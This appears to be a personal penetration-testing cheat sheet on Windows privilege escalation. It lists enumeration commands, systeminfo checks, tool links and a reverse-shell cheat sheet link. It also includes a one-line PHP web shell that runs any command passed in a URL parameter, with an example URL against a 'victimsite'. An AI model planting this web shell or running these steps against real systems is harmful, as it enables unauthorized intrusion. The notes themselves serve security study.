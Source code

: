 # ariel-shin Windows - Privilege Escalation

## Summary 
* [Tools](#tools)

## MUST RUN: ipconfig/ifconfig && whoami && cat local.txt

## Web Shell for Windows 
- [PHP Web Shell]
    Test if PHP works
    ```phpinfo
    <?php phpinfo(); ?>
    ```
    Command Execution
    ```php webshell
    <?php echo(system($_GET["cmd"])); ?>
    ```
    Go to http://victimsite.com/test.php?cmd=dir for command execution 

## Process
- [systeminfo]
	* Gives us system info 

	* Check Hot Fixes
		* No hot fixes - means no hotfixes installed OR we don't have permissions to view hot fixes

	* Check OS Name
		* google: systeminfo "Microosft Windows Server 2008 R2 DataCenter" + "NIC(s) installed"

		* check if someone else has posted systeminfo output so we can compare our OS version 

	* Check OS Versions 
		* Indicate the Service Pack -- N/A
	
	```systeminfo
	systeminfo | findstr /B /C:”OS Name” /C:”OS Version”
	```
	Google Output


## Automated Tools
* [Windows Exploit Suggester](https://github.com/GDSSecurity/Windows-Exploit-Suggester)

## Cheat Sheets
* [Reverse Shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
)

## Links
* [Spreadsheet with Resources](https://docs.google.com/spreadsheets/d/12bT8APhWsL-P8mBtWCYu4MLftwG1cPmIL25AEBtXDno/edit#gid=2075148101)